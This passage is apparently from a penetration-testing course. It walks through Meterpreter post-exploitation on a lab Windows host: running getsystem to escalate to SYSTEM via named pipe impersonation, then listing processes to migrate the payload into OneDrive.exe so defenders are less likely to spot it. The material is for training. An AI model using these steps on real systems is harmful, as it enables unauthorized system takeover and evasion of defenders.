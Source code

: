 ```

C:\Users\luiza> exit
exit
```

> Listing 60 - Display the assigned privileges to our user in an interactive shell

Listing 60 shows that the user *luiza* has *SeImpersonatePrivilege* assigned. Now, let's use **getsystem** to attempt to elevate our privileges.

```
meterpreter > getuid
Server username: ITWK01\luiza

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> Listing 61 - Elevate our privileges with *getsystem*

Listing 61 shows that getsystem successfully elevated our privileges to NT AUTHORITY\\SYSTEM by using *Named Pipe Impersonation (PrintSpooler variant)* as we did manually in the *Windows Privilege Escalation* Module.

Another important post-exploitation feature is *migrate*. When we compromise a host, our Meterpreter payload is executed inside the process of the application we attack or execute our payload. If the victim closes that process, our access to the machine is closed as well. In addition, depending on how the Windows binary file containing the Meterpreter payload is named, the process name may be suspicious if a defender is searching through the process list. We can use migrate to move the execution of our Meterpreter payload to a different process.

Let's view all running processes by entering **ps** in the Meterpreter command prompt.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----
 2552   8500  met.exe                      x64   0        ITWK01\luiza                  C:\Users\luiza\met.exe 
... 
 8052   4892  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
...
```

> Listing 62 - Display list of running processes

Listing 62 shows that the process *met.exe* has the process ID 2552. The name and path will easily make the process stand out to a defender reviewing the process list. The output shows that *offsec* started a process related to *OneDrive* with process ID 8052. If our payload runs within this process, it is far less likely to be detected by reviewing the process list.
